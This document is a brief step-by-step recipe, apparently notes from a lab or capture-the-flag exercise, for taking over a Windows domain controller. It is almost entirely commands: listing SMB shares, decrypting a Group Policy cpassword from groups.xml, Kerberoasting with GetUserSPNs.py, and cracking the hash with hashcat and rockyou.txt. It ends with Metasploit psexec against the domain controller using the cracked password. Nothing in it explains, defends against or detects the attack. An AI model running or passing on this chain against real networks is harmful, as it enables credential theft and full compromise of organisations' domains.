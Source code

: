 1) first get to ad share with smbclient
```
smbclient -L \\\\<dc ip>\\
```
2) from there we grap the groups.xml file, and copy the content of cpassword and then write
```
gpp-decrypt <cpp_password_content>
```

3) locate GetUserSPNs.py and run
```
python GetUserSPNs.py <username_for_groups.xml_file> -dc-ip <dc_ip>
```
when prompt for password paste the decrypted one we got  
4) now we crack the hash with hashcat  
(copy the output you got and put it to text file).  
```
hashcat -m 13100 <textfile_we_created> <wordlist - (usually rockyou.txt)>
```
5) then go to msfconsole  
```
msfconsole -q
use exploit/windows/smb/psexec
set smbdomain <domain_full_name>
set smbuser <user>
set smbpass <what_we_got_from_the_hashcat>
set rhost <dc_ip>
exploit
```
